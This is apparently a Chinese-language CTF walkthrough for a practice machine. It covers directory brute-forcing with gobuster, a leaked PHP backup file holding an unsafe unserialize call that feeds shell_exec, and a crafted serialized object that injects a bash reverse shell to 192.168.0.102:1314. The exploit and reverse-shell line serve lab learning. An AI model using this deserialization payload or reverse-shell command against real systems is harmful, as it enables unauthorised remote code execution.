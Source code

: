 
无结果，可能这里有反序列化漏洞，那么我们的工作就是找源码，啊这个back_en目录是字典扫出来的

```
└─# gobuster dir -u http://secure.cereal.ctf:44441/back_en/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak 
/index.php.bak        (Status: 200) [Size: 1814]
```

找到源码  http://secure.cereal.ctf:44441/back_en/index.php.bak

```
class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>........................................
```

分析  明显看命名  filter_var(）就是个过滤函数，$isValid = False时 if 进入 过滤函数，当$isValid = True 时直接 进 ping() 函数，那么明白了，只需把$isValid 改为True 就行了，接下来上payload构造

```
class pingTest {
    public $ipAddress = "127.0.0.1;bash -c 'bash -i >& /dev/tcp/192.168.0.102/1314 0>&1'";
    public $isValid = True;
    public $output = "";
}
echo serialize(new pingTest());
```
